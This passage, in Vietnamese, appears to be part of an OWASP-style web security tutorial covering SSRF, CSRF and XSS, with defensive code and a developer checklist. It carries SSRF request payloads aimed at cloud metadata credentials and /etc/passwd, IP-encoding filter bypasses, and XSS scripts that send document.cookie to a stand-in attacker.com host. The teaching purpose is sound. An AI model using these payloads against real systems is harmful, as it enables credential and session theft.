### Cơ chế tấn công



### Ví dụ tấn công

```
# Ứng dụng có tính năng preview URL
GET /api/preview?url=https://example.com/image.jpg

# Kẻ tấn công thay đổi URL để truy cập nội bộ
GET /api/preview?url=http://192.168.1.1/admin
GET /api/preview?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
GET /api/preview?url=file:///etc/passwd

# Bypass filter đơn giản
GET /api/preview?url=http://127.0.0.1:8080
GET /api/preview?url=http://0177.0.0.1   (octal encoding)
GET /api/preview?url=http://2130706433   (decimal IP của 127.0.0.1)
```

### Biện pháp phòng chống

**Mức Network:**

```
# Tường lửa deny by default cho outbound từ web server
iptables -A OUTPUT -d 169.254.169.254 -j DROP
iptables -A OUTPUT -d 10.0.0.0/8 -j DROP
iptables -A OUTPUT -d 172.16.0.0/12 -j DROP
iptables -A OUTPUT -d 192.168.0.0/16 -j DROP
```

**Mức Ứng dụng:**

```python
import ipaddress
from urllib.parse import urlparse

ALLOWED_SCHEMES = {'http', 'https'}
BLOCKED_HOSTS = {'localhost', '127.0.0.1', '0.0.0.0'}

def is_safe_url(url: str) -> bool:
    parsed = urlparse(url)
    
    # Chỉ cho phép http/https
    if parsed.scheme not in ALLOWED_SCHEMES:
        return False
    
    # Chặn các host nội bộ
    if parsed.hostname in BLOCKED_HOSTS:
        return False
    
    # Chặn các dải IP private
    try:
        ip = ipaddress.ip_address(parsed.hostname)
        if ip.is_private or ip.is_loopback or ip.is_link_local:
            return False
    except ValueError:
        pass  # Hostname không phải IP — tiếp tục kiểm tra DNS
    
    return True
```

!!! warning "Lưu ý về DNS Rebinding"
    Chỉ validate URL lúc nhận không đủ. Kẻ tấn công có thể dùng **DNS rebinding**: DNS trả về IP public lúc check, nhưng sau đó đổi thành IP private khi request thực sự được gửi. Cần validate cả sau khi resolve DNS.

---

## Các Vấn Đề Cũ Đáng Chú Ý

### Cross-Site Request Forgery (CSRF)

CSRF không còn trong Top 10 2021 nhưng **vẫn rất quan trọng**. Kẻ tấn công lừa browser nạn nhân tự động gửi request đã xác thực đến ứng dụng.

```html
<!-- Trang web độc hại của kẻ tấn công -->

<!-- Browser nạn nhân tự động gửi request kèm cookie đã đăng nhập! -->
```

**Phòng chống:**

```html
<!-- CSRF Token trong form -->
<form method="POST" action="/transfer">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    ...
</form>
```

```python
# Validate token phía server
def transfer(request):
    if request.POST.get('csrf_token') != session['csrf_token']:
        abort(403)
```

### XSS (Cross-Site Scripting)

Đã gộp vào mục Injection trong Top 10 2021. XSS cho phép kẻ tấn công inject script độc hại vào trang web mà người dùng khác sẽ xem.

=== "Reflected XSS"

    ```
    # URL độc hại
    https://example.com/search?q=<script>document.location='https://attacker.com/steal?c='+document.cookie</script>
    ```

=== "Stored XSS"

    ```html
    <!-- Kẻ tấn công lưu nội dung này vào database (comment, profile...) -->
    <script>
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: document.cookie
      });
    </script>
    ```

**Phòng chống:**

```python
# Output encoding — luôn encode trước khi render vào HTML
from markupsafe import escape

user_input = "<script>alert('xss')</script>"
safe_output = escape(user_input)
# Kết quả: &lt;script&gt;alert(&#39;xss&#39;)&lt;/script&gt;
```

---

## Tổng kết & Hành động tiếp theo



### Checklist bảo mật cơ bản cho developer

- [ ] Dùng Prepared Statement / ORM — không bao giờ string-concat SQL
- [ ] Validate và sanitize tất cả input phía server
- [ ] Encode output trước khi render HTML
- [ ] Dùng HTTPS + HSTS
- [ ] Hash mật khẩu với bcrypt/Argon2
- [ ] Implement CSRF token
- [ ] Thiết lập security headers đầy đủ
- [ ] Cập nhật dependency thường xuyên
- [ ] Logging đầy đủ, lưu log tập trung
- [ ] Implement rate limiting
- [ ] Review quyền truy cập định kỳ

---

## Tài liệu tham khảo

| Nguồn | Mô tả |
|---|---|
| [OWASP Top 10](https://owasp.org/Top10/) | Tài liệu chính thức OWASP Top 10 2021 |
| [OWASP Cheat Sheets](https://cheatsheetseries.owasp.org/) | Hướng dẫn phòng chống chi tiết từng loại lỗ hổng |
| [PortSwigger Web Security Academy](https://portswigger.net/web-security) | Lab thực hành miễn phí, rất chi tiết |
| [HackTheBox](https://www.hackthebox.com/) | Nền tảng luyện tập CTF, pentest |
| [TryHackMe](https://tryhackme.com/) | Học bảo mật từ cơ bản đến nâng cao có hướng dẫn |
| [CWE Top 25](https://cwe.mitre.org/top25/) | Danh sách lỗ hổng phần mềm phổ biến nhất |
| [NIST NVD](https://nvd.nist.gov/) | Database lỗ hổng CVE quốc gia |
| [CVE Details](https://www.cvedetails.com/) | Tra cứu CVE và thống kê theo vendor/product |
